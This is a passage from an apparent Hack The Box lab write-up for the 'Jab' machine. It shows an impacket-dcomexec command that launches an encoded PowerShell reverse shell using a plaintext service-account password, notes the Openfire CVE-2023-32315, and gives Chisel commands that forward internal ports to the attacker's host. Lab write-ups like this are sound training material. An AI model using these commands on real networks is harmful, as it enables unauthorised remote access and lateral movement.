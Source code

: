 ![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613104543.png)

- To exploit the privileges of this membership, we'll use `impacket-dcomexec`, which executes an arbitrary command and writes the output to a `share` via `SMB` by default. We'll generate the payload to obtain a reverse shell.

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609220727.png)


- With that done, we execute the following command and receive the reverse shell!

```bash
impacket-dcomexec  -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'cmd /c "powershell -e <payload_base64_here>"' -nooutput
```

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609222339.png)

> Comments: Since it's necessary to have write permissions on the SMB service to retrieve the output of the command executed by `impacket-dcomexec`, we'll use the flag `-nooutput`, which simply executes the command. [Source ](https://pentest.party/notes/lateral-movement/dcom)
{: .prompt-info }

## User
- Reading `user.txt`

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613144449.png)

## Root
- After performing a deep enumeration on the host, it's observed that there are uncommon processes such as `openfire-service`. The pentester was previously interested in this `openfire-service` due to an `nmap` scan indicating a version of `3.10.0` or later. This interest stems from a quick vulnerability search, revealing the existence of the [`Openfire authentication bypass with RCE plugin: CVE-2023-32315`](https://www.rapid7.com/db/modules/exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315/).

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613115049.png)

- Since it's running internally, he used Chisel to perform a Reverse Pivot and gain access to the internal service. So, he first uploaded the executable `chisel_windows_amd64.exe` to the target host.

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609223512.png)

- It's worth noting that the default ports for the Openfire service are `9090` and `9091` ([Source](https://wiki.archlinux.org/title/Openfire#:~:text=password'%3B%20%3E%20quit%3B-,Install%20%26%20start%20Openfire%20on%20remote,of%20your%20server%20by%20default.)). Then, he established the reverse port forwarding with the following commands.

```bash
chisel server -p 8050 --reverse
./chisel.exe client 10.10.14.151:8050 R:9090:127.0.0.1:9090 R:9091:127.0.0.1:9091
```

